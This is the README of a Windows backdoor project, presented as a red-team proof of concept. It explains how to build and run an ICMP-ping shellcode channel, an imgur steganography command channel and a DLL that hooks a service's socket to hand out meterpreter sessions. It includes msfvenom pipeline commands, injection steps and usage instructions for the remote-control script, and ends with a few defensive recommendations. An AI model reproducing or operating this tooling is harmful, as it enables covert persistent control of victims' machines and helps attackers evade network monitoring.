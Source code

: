 Virtual Reality
===============

This is a backdoor project for windows operating systems.

## Intended audience

This is a proof-of-concept stealthy backdoor aimed to aid red teams in maintaining
control of their targets during security evaluation process. Project also intends
to expose ways to abuse standard features.

## Features

Extremely stealthy backdoor for Windows platform.

* ICMP-PING backdoor. Passively listens for incoming pings and executes shellcode
delivered in ping payload.
* HTTP backdoor using steganographically encoded images hosted on imgur.com
* Grand-theft-socket - a payload for executing shellcode through socket of existing
service,
* Runs on anything from XP to W10

## Details

* Small size by using tinystl and avoiding standard c++ stl
* Cooperative multitasking achieved by using Windows fibers
* Permissively licensed, including all dependencies

## Build instructions

1. (Optional) Download appropriate [VC-LTL](https://github.com/Chuyu-Team/VC-LTL/releases)
and extract to `VC-LTL` folder.
2. `git clone https://github.com/rokups/virtual-reality`. Now you have two folders next to
each other: `VC-LTL` and `virtual-reality.
3. `mkdir cmake-build; cd cmake-build`.
4. `cmake -DCMAKE_BUILD_TYPE=MinSizeRel ../virtual-reality`.
5. `cmake --build . --config MinSizeRel`. Note that VC-LTL does not support debug builds.
Do not build `Debug` configuration or ensure that `_DEBUG` preprocessor symbol is undefined.
6. Payloads are found in `cmake-build/bin` directory.

VC-LTL is used for linking to `msvcrt.dll` and greatly reducing executable sizes.

MinGW builds are deprecated. They may work or may be broken. Reason for this is that
executables built with MinGW crash when used in some injection techniques. I did not
care enough to figure it out.

## Instructions

Modify `config.h` to suit your needs.

Use `vr.py` to interact with the backdoor.

### Shellcode payload

`vr.py shellcode path/to/shellcode.bin` reads shellcode into script's memory.
On it's own this is useless therefore combine it with other commands. You may
use `-` instead of path in order to read shellcode from `stdin`.

### Ping transport

`msfvenom <...> | vr.py shellcode - -- ping 192.168.0.1` reads a shellcode from
`stdin` and sends it via icmp-ping to `192.168.0.1`. Backdoor running on that
machine will execute this shellcode.

Shellcode will be delivered to the target by sending it as ICMP-PING packet payload.

![ping-demo](https://user-images.githubusercontent.com/19151258/52339219-2c742600-2a15-11e9-95b0-212485421e35.png)

Content of packet appears to be random. The only give-away that something is up
is a rather big packet size, although it is possible to customized packet size
using ping utility or specify custom payload (linux).

### imgur.com transport

`msfvenom <...> | vr.py shellcode - -- png path/to/image.png` reads a shellcode
from `stdin` and encodes into specified `image.png`. This image must exist and
it must be in RGB format (no alpha). Resulting image should be uploaded to
https://imgur.com/ and tagged with one or more tags while one of tags must be
one that is specified in `config.h`.

Shellcode will be encoded into specified image by altering last two bits of
each color component in the target image. 1 byte needs 4 color components
to be encoded and thus requires 1.(3) pixels. Encoded images are indistinguishable
from original to the naked eye. Backdoor queries imgur API for listing images
tagged with a configured tag. Every new image is downloaded and inspected for
encoded payload.

![steg-demo](https://user-images.githubusercontent.com/19151258/52338654-adcab900-2a13-11e9-9887-3a55cde9dc36.png)

Left - original image. Right - image with encoded payload. Bottom - difference mask.
120x75 image was used. As you can see only a tiny portion of pretty small iamge is used
to encode 449 bytes payload.

### Grand-theft-socket

This is a technique meant to backdoor a machine that:
1. Has a public service listening (TCP).
2. No outgoing traffic is allowed.

`gts.dll` payload is meant to be injected to process of service that listens on public
interface. This payload hooks `WSAAccept()` function and allows creating meterpreter
session through the listening socket of already existing service while still allowing
normal traffic to flow as if nothing has happened.

When new connection is being made payload does the following:
1. Looks for a `tcp_knock` command and if found - whitelist command sender and terminate connection.
2. When connection comes from a whitelisted ip address:
  1. Spawn a new process.
  2. `WSADuplicateSocket()` newly connected socket into newly created process.
  3. New process will read shellcode size, shellcode itself and execute received shellcode.
  4. Simulate disconnection by returning `INVALID_SOCKET` with `WSAECONNRESET` error to the host process.
  5. Clear whitelisted address. A new knock will be required for executing next payload.
3. When connection is made from non-whitelisted address and no `tcp_knock` is received -
hand connection back to host.

Usage:
1. On target host - inject `gts.dll` into process that accepts connections.
2. On source host - execute `vr.py tcp_knock target_ip_address service_port`
3. On source host - execute `meterpreter/bind_tcp` payload with `RHOST=target_ip_address`
and `LPORT=service_port` within 30 seconds since sending `tcp_knock`.
4. Observe that you just received meterpreter session.

## Security

Payload is always obfuscated using RC4 algorithm. As you probably have guessed
replay attacks are a thing against this backdoor. Also backdoor may be controlled
by a rival blue team if they have reverse-engineered sample and recovered RC4
key. Utmost security is not the point of this project. If blue team is on to the
backdoor - nothing will save it anyway.

## Recommendations

* If possible - filter out ICMP-PING packets with in firewall
* Take a proactive approach in monitoring your networks. Log everything and
look for abnormalities. Chances are your servers have no business querying
imgur.com or similar social media domains.
* Periodically scan your critical services for inline hooks.

## etc

Q: Why this name? This has nothing to do with virtual reality.

A: Nothing at all. And no reason really. Naming is hard.
